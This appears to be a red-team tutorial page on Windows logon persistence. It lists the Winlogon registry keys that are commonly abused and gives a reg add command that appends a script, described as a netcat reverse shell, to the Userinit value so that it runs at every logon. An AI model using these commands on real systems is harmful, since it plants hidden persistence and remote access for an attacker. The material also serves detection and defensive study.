 # Windows Logon Helper

> Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete.
>
> [https://attack.mitre.org/techniques/T1004/](https://attack.mitre.org/techniques/T1004/)

Commonly abused Winlogon registry keys and value for persistence are:

```
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

{% hint style="info" %}
HKCU can also be replaced with HKLM for a system wide persistence, if you have admin privileges.
{% endhint %}

## Execution

Let's run through the techqnique abusing the `userinit` subkey.

Let's see what's currently held at the `userinit`:

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![](<../../.gitbook/assets/image (424).png>)

Let's now add an additional item shell.cmd (a simple reverse netcat shell) to the list that we want to be launched when the compromised machine reboots:

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![](<../../.gitbook/assets/image (425).png>)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![](<../../.gitbook/assets/image (426).png>)

## References

{% embed url="https://attack.mitre.org/techniques/T1004/" %}

